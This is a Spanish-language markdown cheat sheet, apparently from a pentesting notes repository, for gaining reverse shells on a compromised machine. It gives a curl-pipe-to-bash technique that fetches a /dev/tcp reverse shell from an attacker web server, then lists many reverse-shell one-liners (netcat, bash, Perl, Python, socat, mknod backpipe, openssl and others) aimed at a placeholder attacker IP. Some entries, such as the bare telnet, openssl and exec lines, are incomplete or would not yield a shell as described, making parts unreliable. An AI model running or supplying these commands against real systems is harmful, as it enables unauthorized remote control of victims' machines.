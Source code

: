 ```yaml
---
title: Revershell cheet sheat
published: true
---
```


- Primeramente debes tener ejecucion remota de comandos, 
- luego verificar si hay curl  , lo haces con " which curl"
- luedo de la maquina atacante te abres un servidor http y creas un 
- index.html:

    	```console
    	#!/bin/bash
    	bash -i >& /dev/tcp/10.10.10.10/443 0>&1
	```

- y te pones en escucha en la maquina atacante con:

	```console
    	nc -nlvp 443 
    	```
- y ejecutas en la maquina victima lo siguiente 
 
	```
    	curl 10.10.10.10 | bash
	```
- obtendras una revershell(realizar tratamiento de la consola):

***********************
******MAS FORMAS*****
***********************

- Este comando usa netcat (nc) para establecer una conexión con el sistema atacante en la dirección IP especificada y 
- el puerto 443, y ejecuta una shell inversa para permitir al sistema atacante ejecutar comandos en el sistema objetivo.

    	```console
    	nc -e /bin/sh X.X.X.X 443
    	```

- Este comando utiliza el intérprete de comandos "bash" y "redirecciones de descriptor de archivo" para establecer 
- una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.

	```console
	bash -i >& /dev/tcp/X.X.X.X/443 0>&1 
	```

- Este comando utiliza el lenguaje de programación Perl y las funciones de socket para establecer una conexión
de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.
 
	```console
    	perl -e 'use Socket;$i="X.X.X.X";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
    	```
Este comando utiliza el lenguaje de programación Python y las funciones de socket para establecer una conexión de
 "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.

    	```python
    	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("X.X.X.X",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    	```
---

Este comando utiliza el programa socat para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443. 
El comando crea un pseudo-TTY y lo conecta a través de un socket TCP.

    	```console
    	socat file:tty,raw,echo=0 tcp-connect:X.X.X.X:443 
    	```
Este comando utiliza OpenSSH para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" a través del puerto 443. 
El comando habilita un tunel inverso (reverse tunnel) en el puerto 443 del sistema objetivo, que se conecta al puerto 443 del sistema atacante.

    	```console
    	ssh -R 443:localhost:443 user@X.X.X.X  
    	```
Este comando utiliza el protocolo Telnet para establecer una conexión con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443, luego ejecuta un comando shell remotamente a través de esa conexión.

    	```console
    	telnet X.X.X.X 443
    	```
 Este comando utiliza pipes ( tuberías) y la herramienta netcat para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.

    	```console
    	mknod backpipe p && nc X.X.X.X 443 0<backpipe | /bin/bash 1>backpipe
    	```

 Este comando utiliza el intérprete de comandos "bash" y redirecciones de descriptor de archivo para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.

    	```console
    	/bin/bash -i > /dev/tcp/X.X.X.X/443 0<&1 2>&1
    	```

 Este comando utiliza la herramienta openssl para establecer una conexión SSL/TLS con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443, luego ejecuta un comando shell remotamente a través de esa conexión.

    	```console
    	openssl s_client -quiet -connect X.X.X.X:443
    	```

 Este comando utiliza redirecciones de descriptor de archivo y sockets TCP para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.
   
    	```console
    	exec 5<>/dev/tcp/X.X.X.X/443
    	```

 Este comando utiliza xterm, una terminal gráfica para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" en el puerto TCP/IP predeterminado para XDMCP (X Display Manager Control Protocol).

    	```console
    	xterm -display X.X.X.X:0
    	```
